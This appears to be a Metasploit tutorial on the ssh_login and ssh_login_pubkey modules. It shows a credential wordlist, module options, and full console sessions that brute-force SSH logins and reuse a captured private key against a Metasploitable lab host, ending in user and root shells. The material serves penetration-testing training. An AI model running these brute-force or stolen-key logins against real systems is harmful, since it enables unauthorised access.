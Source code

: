 # ssh_login

The ssh_login module is quite versatile in that it can not only test a set of credentials across a range of IP addresses, but it can also perform brute force login attempts. We will pass a file to the module containing usernames and passwords separated by a space as shown below.

```bash
root@kali:~# head /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
root
root !root
root Cisco
root NeXT
root QNX
root admin
root attack
root ax400
root bagabu
root blablabla
```
Next, we load up the scanner module in Metasploit and set USERPASS_FILE to point to our list of credentials to attempt.

```bash
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(ssh_login) > set RHOSTS 192.168.1.154
RHOSTS => 192.168.1.154
msf auxiliary(ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
msf auxiliary(ssh_login) > set VERBOSE false
VERBOSE => false
```
- Manual setup
```bash 
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 0.0.0.0
set RPORT 0000
set USER_FILE /path/user.txt
set PASS_FILE /path/pass.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```

With everything ready to go, we run the module. When a valid credential pair is found, we are presented with a shell on the remote machine.

```bash
msf auxiliary(ssh_login) > run

[*] 192.168.1.154:22 - SSH - Starting buteforce
[*] Command shell session 1 opened (?? -> ??) at 2010-09-09 17:25:18 -0600
[+] 192.168.1.154:22 - SSH - Success: 'msfadmin':'msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin)
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
exit
[*] Command shell session 1 closed.
msf auxiliary(ssh_login) >
```
# ssh_login_pubkey

Using public key authentication for SSH is highly regarded as being far more secure than using usernames and passwords to authenticate. The caveat to this is that if the private key portion of the key pair is not kept secure, the security of the configuration is thrown right out the window. If, during an engagement, you get access to a private SSH key, you can use the ssh_login_pubkey module to attempt to login across a range of devices.

```bash
msf > use auxiliary/scanner/ssh/ssh_login_pubkey
msf auxiliary(ssh_login_pubkey) > show options

Module options (auxiliary/scanner/ssh/ssh_login_pubkey):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------

   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   KEY_PATH                           yes       Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub" will be skipped.
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(ssh_login_pubkey) > set KEY_FILE /tmp/id_rsa

KEY_FILE => /tmp/id_rsa
msf auxiliary(ssh_login_pubkey) > set USERNAME root
USERNAME => root
msf auxiliary(ssh_login_pubkey) > set RHOSTS 192.168.1.154
RHOSTS => 192.168.1.154
msf auxiliary(ssh_login_pubkey) > run

[*] 192.168.1.154:22 - SSH - Testing Cleartext Keys
[*] 192.168.1.154:22 - SSH - Trying 1 cleartext key per user.
[*] Command shell session 1 opened (?? -> ??) at 2010-09-09 17:17:56 -0600
[+] 192.168.1.154:22 - SSH - Success: 'root':'57:c3:11:5d:77:c5:63:90:33:2d:c5:c4:99:78:62:7a' 'uid=0(root) gid=0(root) groups=0(root) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login_pubkey) > sessions -i 1
[*] Starting interaction with 1...

ls
reset_logs.sh
id
uid=0(root) gid=0(root) groups=0(root)
exit
[*] Command shell session 1 closed.
msf auxiliary(ssh_login_pubkey) >
```











